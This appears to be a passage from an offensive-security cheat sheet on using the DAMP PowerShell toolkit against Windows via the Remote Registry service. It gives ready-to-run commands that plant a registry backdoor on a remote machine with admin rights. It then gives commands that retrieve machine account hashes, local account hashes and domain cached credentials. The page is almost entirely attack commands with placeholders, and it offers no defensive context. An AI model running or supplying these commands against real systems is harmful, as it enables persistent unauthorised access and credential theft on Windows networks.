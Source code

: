# 5⃣ Remote Registry

### Using the DAMP toolkit

```
. ./Add-RemoteRegBackdoor
. ./RemoteHashRetrieval
```



### **Using DAMP with admin privs on the remote machine**

```
Add-RemoteRegBackdoor -Computername <computername> -Trustee <username> -Verbose
```



### **Retrieve the machine account hash from the local machine**

```
Get-RemoteMachineAccountHash -Computername <computername> -Verbose
```



### **Retrieve the local account hash from the local machine**

```
Get-RemoteLocalAccountHash -Computername <computername> -Verbose
```



### **Retrieve domain cached credentials from the local machine**

```
Get-RemoteCachedCredential -Computername <computername> -Verbose
```
